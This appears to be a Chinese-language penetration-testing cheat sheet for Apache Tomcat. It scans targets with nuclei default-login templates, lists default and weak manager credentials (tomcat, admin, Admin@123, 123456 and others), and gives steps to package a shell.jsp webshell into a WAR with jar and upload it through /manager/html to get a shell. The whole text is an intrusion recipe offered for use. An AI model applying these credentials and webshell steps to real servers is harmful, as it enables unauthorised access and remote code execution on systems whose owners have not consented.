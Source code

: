 ## 漏洞扫描

```bash
nuclei -tags tomcat -t default-logins/ -l urls.txt
```

## 漏洞利用

1、访问`ip:8080/manager/html`

用户名

```
tomcat
admin
```

密码

```
tomcat
Tomcat
admin
Admin
Admin@123
123456
654321
000000
111111
其它更多自己收集字典~
```

2、部署`war包`getshell

```bash
#shell.jsp单独放置一个目录，命令行下进入当前目录,打包成war包
jar -cvf login.war .\
```

找到 WAR file to deploy 这一项，上传war包后应用即可